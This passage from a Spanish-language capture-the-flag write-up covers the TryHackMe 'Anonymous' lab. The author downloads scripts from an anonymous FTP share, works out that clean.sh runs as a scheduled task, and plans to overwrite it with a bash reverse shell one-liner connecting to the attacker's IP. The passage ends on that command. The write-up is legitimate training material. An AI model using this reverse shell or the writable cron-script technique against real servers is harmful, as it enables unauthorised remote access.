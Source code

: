 ```console
221 Goodbye.
```

Hemos encontrado un directorio <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">scripts</code>&nbsp;, hemos entrado, listado su contenido y descargado con `get <file_name>` los ficheros que allí estaban a nuestro directorio de trabajo.

Los abrimos en local y les echamos un ojo.

* <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">clean.sh</code>&nbsp;: es un script para limpiar la carpeta */tmp* del servidor. Cada vez que se ejecuta revisa el número de ficheros en el directorio; si es 0, graba un mensaje en <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">removed_files.log</code>&nbsp;; si no es 0, elimina el fichero y graba un mensaje en <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">removed_files.log</code>.

* <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">removed_files.log</code>&nbsp;: es el fichero de logs del script anterior.

* <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">to_do.txt</code>&nbsp;: sin comentarios.

La cuestión aquí es saber quién ejecuta <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">clean.sh</code>&nbsp;y cuándo. Será una tarea programada ? De ser así, en el tiempo que llevamos elucubrando, se habrá vuelto a ejecutar ? Nos dará alguna información <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">removed_files.log</code>&nbsp;.

Para salir de dudas renombramos el <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">removed_files.log</code>&nbsp; que nos descargamos

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Anonymous]
└─$ mv removed_files.log removed_files2.log
```

Volvemos a descargarlo desde el FTP y contamos las lineas de cada uno

```console
┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Anonymous]
└─$ cat cat removed_files2.log | wc -l
28

┌──(ewan67㉿kali)-[~/Documents/Cybersecurity/THM/Anonymous]
└─$ cat cat removed_files.log | wc -l
50
```

OK. El script <code class="language-plaintext highlighter-rouge" style="color:var(--filepath-text-color);">clean.sh</code>&nbsp; está asociado a una tarea programada. Si modificamos el contenido del fichero, lo subimos via FTP y esperamos a que se ejecute, estaremos ejecutando nuestro código en el servidor. Por ejemplo: una reverse shellcode para que se conecte a nuestro equipo.

Googleamos y encontramos lo que estamos buscando [aquí](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```shell
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
